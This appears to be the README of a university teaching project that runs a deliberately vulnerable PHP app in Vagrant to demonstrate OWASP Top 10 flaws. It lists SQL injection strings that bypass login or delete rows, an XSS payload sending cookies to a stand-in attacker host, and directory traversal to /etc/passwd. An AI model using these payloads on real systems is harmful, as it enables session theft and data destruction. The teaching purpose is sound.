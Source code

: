 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * try this: http://192.168.33.10/zcu/list/get_file.php?file=../index.php
  * or this: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____

### TODOs:
- try to generally fix problem with vboxsf - workaround described in Troubleshooting A)


### Troubleshooting (Fedora 23)
 - 1) Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not available. Please verify that the guest additions are properly installed in the guest and  can work properly. The command attempted was:
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
  - The error output from the last command was:
    - /sbin/mount.vboxsf: mounting failed with the error: No such device
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision
 - 2) Building the main Guest Additions module[FAILED] (+ following errors)
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
